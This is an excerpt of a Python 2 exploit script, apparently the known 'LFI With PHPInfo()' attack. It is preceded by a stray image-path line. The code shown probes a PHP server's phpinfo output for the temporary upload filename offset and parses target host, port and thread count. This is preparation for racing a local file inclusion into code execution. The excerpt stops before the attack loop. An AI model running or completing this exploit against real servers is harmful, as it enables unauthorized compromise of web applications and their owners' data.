 ```python
def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =>")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
```